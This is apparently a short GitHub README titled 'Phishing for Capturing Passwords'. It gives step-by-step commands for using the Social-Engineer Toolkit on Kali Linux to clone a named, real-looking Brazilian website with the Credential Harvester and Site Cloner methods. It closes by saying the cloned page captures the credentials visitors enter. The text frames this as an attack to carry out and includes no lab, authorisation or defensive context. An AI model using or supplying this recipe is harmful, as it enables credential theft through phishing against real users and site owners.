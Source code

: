 # Phishing for Capturing Passwords

### Tools Required

- Kali Linux
- setoolkit

## Setting Up Phishing on Kali Linux

1. Gain root access:

```bash
sudo su
```

2. Launch the Social-Engineer Toolkit (SET):

```bash
setoolkit
```

3. Select the attack type:

```bash
Social-Engineering Attacks
```

4. Choose the attack vector:

```bash
Web Site Attack Vectors
```
5. Select the attack method:

```bash

Credential Harvester Attack Method
```
6. Choose the Site Cloner method:
```bash
Site Cloner
```
7. Find your machine’s IP address:
```bash
ifconfig
```
8. Enter the target website URL to clone:
```bash
http://www.mirtesnet.com.br
```
## Results

![Phishing Result](phishing.jpeg)

Once configured, the tool will capture credentials entered by users attempting to log in via the cloned page.
